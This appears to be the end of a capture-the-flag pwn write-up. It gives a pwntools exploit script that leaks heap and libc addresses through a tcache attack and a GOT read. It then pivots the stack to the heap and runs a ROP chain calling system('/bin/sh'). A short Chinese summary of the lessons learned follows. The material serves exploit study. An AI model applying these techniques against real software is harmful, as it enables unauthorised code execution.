 ```python
Add(p64(0x602100), 0x6020a0) # 12  malloc 0x602100   fd->0x6020a0(items12)

List()# leak address 0x6020a0 point to heap address(item0)
for i in range(13):
  s.recvuntil("Price: ")
heap_leak = int(s.recvuntil("\n"))
heap_base = heap_leak - 0x1270-0x40
print "heap_leak =", hex(heap_leak)
print "heap_base =", hex(heap_base)

# libc leak
Edit(14, "X", elf.got.__isoc99_scanf) # mod

List() 
for i in range(13):
  s.recvuntil("Price: ")
scanf_addr  = int(s.recvuntil("\n"))
libc_base   = scanf_addr - libc.symbols['__isoc99_scanf']
system_addr = libc_base + libc.symbols['system']
binsh_addr  = libc_base + next(libc.search('/bin/sh'))
print "scanf_addr =", hex(scanf_addr)
print "libc_base  =", hex(libc_base)

pop_rdi_ret = 0x400f63 # pop rdi; ret; 
leave_ret   = 0x400e11 # leave; ret;

Add(p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr), 0)
gdb.attach(s)
# Stack pivot to heap
Sell(3, "b"*0x18+p64(3)+p64(0)*2+p64(heap_base + 0x17e0 - 8) + p64(leave_ret))

s.interactive()
```
# 总结
这道pwn题目，首先漏洞点很好找，由当时找到了sell里的栈溢出，但是没有想到如何泄露地址，如何利用；主要是没仔细发现edit中还有一个溢出😂，这次学到了两种泄露地址方法：
1. 通过溢出制造unsorted bin来泄露libc
2. 通过tcache attack，申请到bss段，结合题目泄露heap、libc
还有就是当栈溢出长度不够时，考虑将栈迁移到bss或者堆上，具体还要看程序有没有提供修改的功能，如此题程序提供了修改heap的功能，就可以将stack迁移到heap上。<br>

总之收获还是挺多的！！
